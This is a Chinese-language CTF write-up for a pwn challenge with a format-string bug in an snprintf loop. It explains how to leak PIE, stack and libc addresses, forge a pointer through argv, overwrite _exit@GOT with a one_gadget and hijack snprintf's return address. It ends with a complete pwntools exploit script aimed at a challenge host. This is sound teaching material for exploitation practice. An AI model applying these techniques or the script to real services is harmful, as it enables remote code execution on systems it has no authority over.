





# Chuantongxiangyan

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.11|

## 解题思路

题目本体的代码很简单，就下面这一点：

```c
void _start_c(void) {
  char local_28 [24];
  buffer_shadow = local_28;
  do {
    write(1,"Please input: \n",0xf);
    read(0,local_28,0x10);
    snprintf(obuffer,0x10,local_28);
    write(1,obuffer,0x10);
  } while (buffer_shadow == local_28);
  _exit(1);
}
```

由于能输入的缓冲区很少，最多只能塞下一个指针+格式符，因此首先得泄露信息。
进入snprintf后，在跟到`__vsnprintf_internal`时执行`valist $rcx`查看变长列表，
可以看到第一个参数是`obuffer`指针，因此输入 `"%p"` 就可以泄露程序基地址。
在执行完一次snprintf后，之后的调用中可以发现第四个参数变成了一个栈地址，
更准确地来说，是在`__vsnprintf_internal`中`sf`变量的地址，使用 `"%4$p"` 来泄露栈地址。
题目并没有调用libc_start_main，所以不能直接从栈上获取libc；可以通过输入的16字节，
使用 `"%5$s"` 以及got表指针泄露libc。



接下来就是考虑如何利用了。不难发现，栈上我们能访问到argv指针和environ指针，
比如说我们可以利用argv指针。通过 `"%5$hhn"` 并配合指向argv指针的指针，
我们可以修改argv指针，将其最低位置零，这样我们就可以利用。而且由于指向的位置往往比较高，
因此也不需要担心爆破的问题，我们手动算偏移即可。



有了这些基础，先用 `"%9$ln"` 把修改后的argv指针指向的8字节清空，然后往里填入我们的指针。
注意到got表可写，可以往`_exit`写入one_gadget，然后再修改snprintf的返回地址，
使其跳转回`main`函数里调用`_exit`的地方，就可以拿到shell。

填入指针比较麻烦，由于在向缓冲区填入一个指针的前提下，很难将 argv
指针的最后一个字节调整成2以上的数字（我们只剩8个字节来构造格式化字符串了，
而 `"%5$hhn"` 就要占用6个字节，只剩两个字节了，因此我们不太可能逐字节修改
argv 指针），所以不太好利用。注意到使用的是 `snprintf`，
在内存中操作不需要将字符串通过系统调用发出来，这意味着多写些字节也没问题。
我的方案是，先用 `"%5$hhn"` 把argv指针最后一字节设成0，然后向argv指针中写入2字节，
接着用 `"xx%5$hhn"`，借助两字节填充，把argv指针最后一个字节改成2，
并向其中写入4字节的数据。由于指针占用6个字节，因此通过 2 + 4 的方式，
我们成功在argv指针指向的位置写入了一个完整的指针。



如上图所示（实际在格式化字符串里不能写16进制数字，仅作示意），通过 2 + 4
的方式，我们使用4次格式化字符串，向argv指向的位置写入了完整的地址，
之后我们就可以使用 `%993$hhn` 去对那个指针做操作了。
（其中两次格式化字符串不需要在缓冲区中写指针，因此串能写得很长）

构造好指针后，一字节一字节写入got表，并再次重复上述流程，将snprintf返回地址改掉，
就能触发one gadget。观察寄存器条件发现完美符合。



> [!TIP]
> 去问了一下出题人，这么做并非预期解。如果开了 Full RELRO，那么我这个方法也能做，
> 只需要将劫持的指针改成 `__vsnprintf_internal` 的返回地址，然后将其修改成
> one_gadget 就行。如果还有沙箱的话就麻烦了，按照出题的人的意思，
> 要靠这个办法的任意地址写，打 House of Husk，劫持printf的处理流。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './cigar'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.95.81.195', 8889)
    elf = ELF(EXE)
    libc = ELF('/libraries/2.35-0ubuntu3.11_amd64/libc.so.6')

    def interact(msg: bytes, escape: bool=False) -> bytes:
        t.sendafter(b'input: \n', msg.ljust(16, b'\0'))
        if escape:
            return b''
        return t.recvuntil(b'Please', drop=True)

    def fastfmt(msg: bytes, addr: int) -> bytes:
        return msg.ljust(8, b'\0') + p64(addr)

    pie_base = int(interact(b'%p')[:14], 16) - elf.symbols['obuffer']
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))
    elf.address = pie_base

    argv_addr = int(interact(b'%3$p')[:14], 16) + 0x198
    success(GOLD_TEXT(f'Leak argv_addr: {argv_addr:#x}'))

    fmt = fastfmt(b'%5$s', elf.got['write'])
    libc_base = unpack(interact(fmt)[:6], 48) - libc.symbols['write']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # %5$ is controlled by our read
    # %9$ is argv pointer
    # %idx$ is our forged pointer

    # clear lowest byte in argv
    interact(fastfmt(b'%5$hhn', argv_addr))
    argv = int(interact(b'%9$p')[:14], 16)
    assert argv & 0xff == 0
    idx = (argv - argv_addr) // 8 + 9
    info(f'Forging a pointer at arg {idx}')

    ogg_bytes = p64(libc_base + 0xebc85)
    ptr_to_write = p64(elf.got['_exit'])
    info(f'Forging _exit@GOT on argv (a bit slow)...')
    interact(b'%9$ln')
    interact(f'%{u16(ptr_to_write[:2])}c%9$hn'.encode())
    interact(fastfmt(b'11%5$hhn', argv_addr))
    interact(f'%{u32(ptr_to_write[2:6])}c%9$n'.encode())
    interact(fastfmt(b'%5$hhn', argv_addr))

    # write via forged pointer on argv
    for i in range(6):
        interact(f'{"1" * (ptr_to_write[0] + i)}%9$hhn'.encode()) # NOTE: ptr_to_write[0] is 0
        interact(f'%{ogg_bytes[i]}c%{idx}$hhn'.encode())

    info(f'Forging vsnprintf ret addr on argv (a bit slow)...')
    ptr_to_write = p64(argv_addr - 0x30) # overwrite snprintf ret addr
    interact(f'%{u16(ptr_to_write[:2])}c%9$hn'.encode())
    interact(fastfmt(b'11%5$hhn', argv_addr))
    interact(f'%{u32(ptr_to_write[2:6])}c%9$n'.encode())
    interact(fastfmt(b'%5$hhn', argv_addr))

    # overwrite ret addr to call _exit
    interact(f'%{0xef}c%{idx}$hhn'.encode(), escape=True)

    t.clean()
    t.interactive()
    t.close()
```


